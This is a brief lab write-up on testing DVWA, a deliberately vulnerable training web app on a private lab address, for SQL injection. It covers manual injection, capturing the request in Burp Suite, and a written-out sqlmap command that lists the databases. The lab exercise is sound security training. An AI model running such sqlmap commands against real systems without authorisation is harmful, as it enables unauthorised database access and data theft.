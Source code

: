 # SQL Injection

## 🎯 Objective
Test if the target web application is vulnerable to SQL Injection by injecting SQL payloads into form inputs and observing the behavior of the database responses.

---

## 💻 Target Info
- **Target IP**: 192.168.56.105  
- **Service**: HTTP (Port 80)  
- **App Used**: DVWA (SQL Injection Module)  
- **Tools Used**: `browser`, `burpsuite`, `sqlmap`

---

## 🧪 Steps

### 🔹 Step 1: Access the Login/Input Page
Go to:  
```
`http://192.168.56.105/dvwa/vulnerabilities/sqli/`  
Use low/medium/high security levels.
```

---

### 🔹 Step 2: Manual Injection (Basic Test)
In the input box, try injecting:

Result:  
```
All users are returned without authentication → **SQLi confirmed**
```
---

### 🔹 Step 3: Capture the Request (Optional)
```
Use Burp Suite to intercept the request and extract the vulnerable parameter.
```
---

### 🔹 Step 4: Automate with SQLMap
```bash
sqlmap -u "http://192.168.56.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=xxxx; security=low" \
--dbs
```
✅ Output: Database names extracted successfully.

📌 Notes
```
DVWA allows switching security levels. Try on both low and medium.
Use --risk and --level flags in SQLMap to get deeper results.
```
